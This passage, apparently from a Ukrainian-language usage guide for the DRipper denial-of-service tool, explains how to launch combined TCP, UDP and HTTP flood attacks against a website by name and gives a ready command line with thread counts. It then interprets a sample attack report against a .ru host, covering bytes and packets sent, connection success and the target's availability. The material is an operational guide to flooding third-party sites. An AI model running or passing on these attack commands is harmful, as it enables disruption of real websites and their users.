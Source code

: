 Для атаки на 3-й варіант, можна використати тільки назву сайта, а метод атаки додати перед назвою. 
Звісно, треба розуміти, що така атака імовірніше не буде ефективною, тому, що невідомо які порти відкрито назовні, які методи захисту є у сайта і т.і.

```bash
# Ціль 3
# http://www.site3.com

# Атака 3
python3 DRipper.py -t 300 \
    -s tcp://www.site3.com \
    -s udp://www.site3.com \
    -s http://www.site3.com
```

---

## Статистика DRipper

Розглянемо результати атаки **http-flood** для одної цілі й розберемось з тим, що саме показує статистика.

```bash
──────────────────────────────────────────────────────────────────────────────────────────────────
  Description                                 Status
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Start Time, Duration                        2022-04-10 17:11:56  (0:00:52)
  Your Country, Public IP                     NL   89.***.***.***
  vCPU Count                                  8
  Socket Timeout (seconds)                    60
  Random Packet Length                        True | Max length: 1024
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Country, Host IP                            RU  91.222.33.444:443 (target-0)
  HTTP Request                                GET: https://www.site1.ru:443/
  Attack Method                               HTTP-FLOOD
  Threads                                     200
  CloudFlare Protection                       Not protected
  Availability (check-host.net)               [17:12:12] Accessible in 19 of 21 zones (90%)
  Sent Bytes @ AVG speed                      33.21 MB @ 646.59 kB/s
  Sent Packets @ AVG speed                      77,187 @ 1467 packets/s
  Connections                                 success: 180, failed: 120, success rate: 60 %
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Status Code Distribution                    200: 100%
 ──────────────────────────────────────────────────────────────────────────────────────────────────

  Events Log
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  [17:12:49]   info   target-0  thread-7    Creating HTTP connection...
  [17:12:49]   error  target-0  thread-197  BrokenPipeError: [Errno 32] Broken pipe
  [17:12:49]   error  target-0  thread-9    BrokenPipeError: [Errno 32] Broken pipe
  [17:12:49]   info   target-0  thread-9    Creating HTTP connection...
  [17:12:49]   info   target-0  thread-197  Creating HTTP connection...
```
